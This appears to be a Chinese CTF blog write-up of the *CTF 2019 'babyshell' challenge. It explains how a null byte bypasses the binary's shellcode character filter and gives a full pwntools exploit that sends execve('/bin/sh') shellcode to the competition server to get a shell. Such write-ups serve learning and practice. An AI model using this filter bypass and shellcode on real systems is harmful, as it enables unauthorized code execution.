 ```yaml
---
title: Starctf2019_Babyshell
date: 2019-04-29 10:52:49
tags:
---
```

挺有意思的一题...PPP太强了..
<!--more-->
# start
[binary][1]
一放题目没几分钟被ppp秒掉了...tql...
# analysis
一开始没仔细看以为是一题指定字符域的`shellcode`题和`pwnable.tw`上的`deathnote`,`alivenote`,`MnO2`挺像的...
后来发现好像检测的地方有点问题可以`\x00`截断
```arm
 for ( i = a1; *i; ++i )
  {
    for ( j = &asc; *j && *j != *i; ++j )
      ;
    if ( !*j )
      return 0LL;
  }
```
`*i`为0就退出了所以可以截断.
# 漏洞利用
通过已有的字符和`\x00`组成不会`crash`的`shellcod`然后写上`sh`的`shellcode`就可以了
# exp
```python
from pwn import *
context.log_level='debug'
context.arch='amd64'
#p=process('./shellcode')
#gdb.attach(p,'b *0x4008cb')
p=remote("34.92.37.22",10002)

sh='''
xor rax,rax
mov al,0x3b
xor rsi,rsi
xor rdi,rdi
xor rdx,rdx
mov rdi,0x68732f6e69622f
push rdi
mov rdi,rsp
syscall
'''
sh=asm(sh)
p.sendlineafter(":","\x00gs\njaZ"+sh)
p.interactive()
'''
[_]: pop rdi
[Z]: pop rdx
'''
```
[1]:https://github.com/n132/Watermalon/tree/master/Starctf_2019
